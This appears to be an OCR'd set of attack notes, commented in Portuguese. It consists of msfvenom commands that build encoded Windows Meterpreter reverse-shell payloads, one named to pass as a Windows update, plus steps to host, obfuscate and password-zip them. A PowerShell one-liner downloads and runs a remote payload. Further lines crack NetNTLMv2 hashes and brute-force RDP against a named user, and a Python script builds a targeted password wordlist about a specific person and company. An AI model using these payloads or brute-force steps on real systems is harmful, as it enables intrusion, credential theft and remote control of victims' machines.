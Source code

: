 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f exe -o ~/win_update.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f psh-cmd -o payload.ps1

python3 -m http.server 8080

Import-Module ./Invoke-Obfuscation.psd1
Invoke-Obfuscation


http://192.168.1.128:8080/update_pacth.exe

zip --password SuaSenhaForte payload_protegido.zip payload_encoded.exe

IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.128:8080/payload.ps1')


john --wordlist=wordlist_personalizada_advanced.txt --format=netntlmv2 hash_john.txt

ncrack -v -p 3389 -U <(echo rsilva) -P wordlist_pro.txt 192.168.1.84

import itertools

# Palavras base relacionadas ao alvo
palavras_base = ["rsilva", "atibaia", "suma", "empresa", "admin", "senha", "TI", "info", "computador"]

# Números comuns para senhas
numeros = ["", "123", "2024", "2023", "007", "001", "777", "999", "10", "50", "!", "@"]

# Símbolos mais usados em senhas
simbolos = ["", "!", "@", "#", "$", "%", "&", "*"]

# Padrões extras corporativos
sufixos_corporativos = ["corp", "system", "grupo", "br", "brasil", "_ti"]

# Substituições para Leet Speak
substituicoes = {
    "a": ["a", "@", "4"],
    "i": ["i", "1"],
    "s": ["s", "$", "5"],
    "o": ["o", "0"],
    "e": ["e", "3"],
    "t": ["t", "7"]
}

def gerar_leet_variacoes(palavra):
    """Gera variações em Leet Speak para uma palavra."""
    combos = [[]]
    for char in palavra:
        novos = []
        if char.lower() in substituicoes:
            for c in substituicoes[char.lower()]:
                for combo in combos:
                    novos.append(combo + [c])
        else:
            for combo in combos:
                novos.append(combo + [char])
        combos = novos
    return set("".join(c) for c in combos)

wordlist = set()

# Geração de variações individuais
for palavra in palavras_base:
    variacoes_leet = gerar_leet_variacoes(palavra)
    for variacao in variacoes_leet:
        wordlist.add(variacao)
        wordlist.add(variacao.capitalize())
        wordlist.add(variacao.upper())
        for numero in numeros:
            for simbolo in simbolos:
                wordlist.add(variacao + numero)
                wordlist.add(variacao + simbolo)
                wordlist.add(variacao + numero + simbolo)

# Combinando palavras entre si com sufixos corporativos
for comb in itertools.permutations(palavras_base, 2):
    base = "".join(comb)
    variacoes_comb = gerar_leet_variacoes(base)
    for variacao in variacoes_comb:
        wordlist.add(variacao)
        for sufixo in sufixos_corporativos:
            wordlist.add(variacao + sufixo)
            for numero in numeros:
                for simbolo in simbolos:
                    wordlist.add(variacao + sufixo + numero + simbolo)

# Salvar wordlist refinada
with open("wordlist_pro_refinada.txt", "w") as file:
    for senha in wordlist:
        file.write(senha + "\n")

print(f"[+] Wordlist refinada gerada com {len(wordlist)} combinações -> wordlist_pro_refinada.txt")


